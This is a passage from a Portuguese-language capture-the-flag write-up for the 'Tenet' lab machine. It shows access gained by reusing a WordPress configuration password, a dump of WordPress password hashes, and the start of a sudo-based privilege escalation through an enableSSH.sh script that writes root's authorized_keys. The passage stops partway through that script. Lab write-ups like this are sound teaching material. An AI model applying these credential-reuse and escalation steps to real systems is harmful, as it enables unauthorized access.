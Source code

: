 Como o reuso de credenciais é algo bastante comum, ao executar o comando `su neil`, fornecendo a senha presente no arquivo de configuração do wordpress, obtive o acesso com a conta do usuário e a flag de user.

```bash
neil@tenet:~$ id
uid=1001(neil) gid=1001(neil) groups=1001(neil)
neil@tenet:~$ cat ~/user.txt
<redacted>
neil@tenet:~$
```

## Root Flag

No caminho para a flag de root, decidi fazer o dump das credenciais presentes no wordpress, onde os seguintes hashes foram encontrados.

```plaintext
mysql> select user_login,user_pass from wp_users;
+-------------+------------------------------------+
| user_login  | user_pass                          |
+-------------+------------------------------------+
| protagonist | $P$BqNNfN07OWdaEfHmGwufBs.b.BebvZ. |
| neil        | $P$BtFC5SOvjEMFWLE4zq5DWXy7sJPUqM. |
+-------------+------------------------------------+
2 rows in set (0.00 sec)
```

Adicionalmente, buscando por possiveis privilégios de sudo do usuário neil (`sudo -l`), notado que o usuário possuía privilégios para executar o script `enableSSH.sh`, listado abaixo.

```plaintext
Matching Defaults entries for www-data on tenet:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:
    
User www-data may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
```

Analisando o conteúdo do script vemos que o mesmo foi criado para forçar a configuração de uma chave pública como autorizada para o usuário `root` para acesso SSH, embora não tenhamos acesso à mesma.

```bash
#!/bin/bash

checkAdded() {
    sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)
    if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then
        /bin/echo "Successfully added $sshName to authorized_keys file!"
    else
        /bin/echo "Error in adding $sshName to authorized_keys file!"
    fi
}

checkFile() {
    if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then
        /bin/echo "Error in creating key file!"
        if [[ -f $1 ]]; then /bin/rm $1; fi
        exit 1
    fi
}

addKey() {
    tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
    (umask 110; touch $tmpName)
    /bin/echo $key >>$tmpName
```
